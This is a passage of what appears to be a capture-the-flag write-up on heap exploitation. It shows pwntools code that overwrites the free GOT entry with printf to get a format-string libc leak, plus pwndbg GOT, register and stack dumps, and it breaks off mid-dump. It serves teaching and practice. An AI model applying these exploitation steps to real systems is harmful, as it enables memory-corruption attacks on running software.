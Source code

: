 ```
pause()
add(0x50, flat('\0' * 14, flat(elf.sym['printf'])[:6]))
```
free is change to printf, then we delete actually run printf
```
pwndbg> got

GOT protection: Partial RELRO | GOT functions: 12
 
[0x602018] free@GLIBC_2.2.5 -> 0x400700 (printf@plt) ◂— jmp    qword ptr [rip + 0x20192a]
[0x602020] puts@GLIBC_2.2.5 -> 0x7f9e37dd86a0 (puts) ◂— push   r12
[0x602028] __stack_chk_fail@GLIBC_2.4 -> 0x4006f6 (__stack_chk_fail@plt+6) ◂— push   2
[0x602030] printf@GLIBC_2.2.5 -> 0x7f9e37dbe810 (printf) ◂— sub    rsp, 0xd8
[0x602038] close@GLIBC_2.2.5 -> 0x400716 (close@plt+6) ◂— push   4
[0x602040] read@GLIBC_2.2.5 -> 0x7f9e37e60310 (read) ◂— cmp    dword ptr [rip + 0x2d2429], 0
[0x602048] __libc_start_main@GLIBC_2.2.5 -> 0x7f9e37d89750 (__libc_start_main) ◂— push   r14
[0x602050] malloc@GLIBC_2.2.5 -> 0x7f9e37ded180 (malloc) ◂— push   rbp
[0x602058] setvbuf@GLIBC_2.2.5 -> 0x7f9e37dd8e80 (setvbuf) ◂— push   rbp
[0x602060] open@GLIBC_2.2.5 -> 0x400766 (open@plt+6) ◂— push   9 /* 'h\t' */
[0x602068] atoi@GLIBC_2.2.5 -> 0x7f9e37d9fe90 (atoi) ◂— sub    rsp, 8
[0x602070] exit@GLIBC_2.2.5 -> 0x400786 (exit@plt+6) ◂— push   0xb /* 'h\x0b' */
```
add '%p', and to find the format string offset to leak libc
```python
add(0x50, '000000')
add(0x50, '111111')
add(0x10, '%p')

delete(1)
edit(0, 0x100, flat('x' * 0x50, 0, 0x61, 0x601ffa))

add(0x50, '222222')
# add(0x50, cyclic(n=8, length=0x30))
add(0x50, flat('\0' * 14, flat(elf.sym['printf'])[:6]))

pause()
delete(2)
```
gdb set break to free of delete, ```gdb -q -p `pidof pwn` -ex "b *0x400CDD" -ex "c"``` find the offset 17
```
pwndbg> context
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
─────────────────────────────────────────[ REGISTERS ]──────────────────────────────────────────
 RAX  0x17d90f0 ◂— 0x7025 /* '%p' */
 RBX  0x0
 RCX  0xffffffda
 RDX  0x0
 RDI  0x17d90f0 ◂— 0x7025 /* '%p' */
 RSI  0x2
 R8   0x0
 R9   0x1999999999999999
 R10  0x0
 R11  0x7fd4062a46a0 (_nl_C_LC_CTYPE_class+256) ◂— add    al, byte ptr [rax]
 R12  0x4007a0 (_start) ◂— xor    ebp, ebp
 R13  0x7ffd05441e90 ◂— 0x1
 R14  0x0
 R15  0x0
 RBP  0x7ffd05441d80 —▸ 0x7ffd05441db0 —▸ 0x400ee0 (__libc_csu_init) ◂— push   r15
 RSP  0x7ffd05441d60 —▸ 0x7ffd05441e90 ◂— 0x1
 RIP  0x400cdd (remove_item+144) ◂— call   0x4006d0
pwndbg> stack 20
00:0000│ rsp  0x7ffd05441d60 —▸ 0x7ffd05441e90 ◂— 0x1
01:0008│      0x7ffd05441d68 ◂— 0x200000000
```